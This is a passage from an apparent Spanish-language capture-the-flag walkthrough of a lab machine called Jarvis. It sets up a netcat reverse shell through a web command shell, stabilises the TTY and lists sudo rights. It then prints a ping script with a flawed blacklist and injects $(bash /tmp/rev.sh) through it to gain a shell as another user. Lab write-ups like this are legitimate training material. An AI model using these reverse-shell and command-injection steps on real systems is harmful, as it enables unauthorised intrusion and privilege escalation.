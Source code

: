 Nos ponemos en escucha con netcat en el puerto 3001

```bash
nc -lvp 3001 <br>
nc -c /bin/bash 10.10.14.18 3001
```


[http://10.10.10.143/cmd.php?cmd=nc -c /bin/bash 10.10.14.18 3001](http://10.10.10.143/cmd.php?cmd=nc -c /bin/bash 10.10.14.18 3001)


Hacemos tratamiento de la tty para poner nuestra shell interactiva [zsh](https://blog.mrtnrdl.de/infosec/2019/05/23/obtain-a-full-interactive-shell-with-zsh.html)


```bash
python -c 'import pty;pty.spawn("/bin/bash");'
ctrl + z
stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
stty raw -echo; fg
stty rows <ROWS> cols <COLS>
export TERM=xterm-256color
```

## User Privilege

**`sudo -l`**

```
www-data@jarvis:/var/www/html$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
www-data@jarvis:/var/www/html$ 

```

Se ejecuta un archivo como sudo si vemos el codigo nos damos cuenta de lo siguiente:
el script tiene una funcion para hacer ping a una ip, podemos inyectar comando facilmente porque no esta serialized 

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```
 Primero creamos un archivo para hacer reverse shell <br>
 ```
  echo "nc -c /bin/bash 10.10.14.18 3001" > /tmp/rev.sh 
  sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
  $(bash /tmp/rev.sh) 
  ```
